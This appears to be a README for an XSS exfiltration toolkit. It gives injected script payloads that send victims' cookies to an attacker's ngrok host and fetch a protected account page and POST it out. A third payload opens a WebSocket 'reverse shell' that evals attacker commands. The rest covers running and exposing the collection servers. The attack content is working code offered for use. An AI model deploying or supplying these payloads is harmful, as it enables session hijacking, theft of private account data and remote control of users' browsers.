 ## info
http server capture user data by either sending the data in a query or in the body.

#### Capture user cookies ####

```js
  <script>
      fetch(`https://NGROK-URL?cookie=${encodeURIComponent(document.cookie)}`)
  </script>
```

#### Capture protected page or data ####
```js
  <script>
      fetch('/account)
          .then(p => p.text())
          .then(t =>
            fetch('https://NGROK-URL', {
              method: "POST",
              headers: { 'Content-Type':'application/json' },
              body: JSON.stringify({p:t})
            })
         ) 
  </script>
```

#### reverse shell connection to the application ####
> > whenever it recieve a message its going to execute it!
```js
  <script>
     s = new WebSocket('wss://NGROK_URL')
     s.onmessage = e => eval(e.data)
  </script>
```

_____________________________

### Running the servers

The first step is to install depencencies:

```bash
npm install
```

Then you can run the regular HTTP server (CORS enabled):

```bash
npm run http
```

Or the websocket server:

```bash
npm run ws
```

_____________________________

### HTTPS/WSS/External access

You can use ngrok to connect via HTTPS, WSS or externally without changing any configuration.
https://dashboard.ngrok.com/get-started

Once it's installed, you can then expose the HTTP server:

```bash
ngrok http 8000
```

Or the Websocket server:

```bash
ngrok http 8080
```

_Just use wss://NGROK_URL  instead of https://NGROK_URL for wss connections_
<br>
if you dont want to use ngrok you can host them on heroku or vercel but insted of console.log write to a log file 
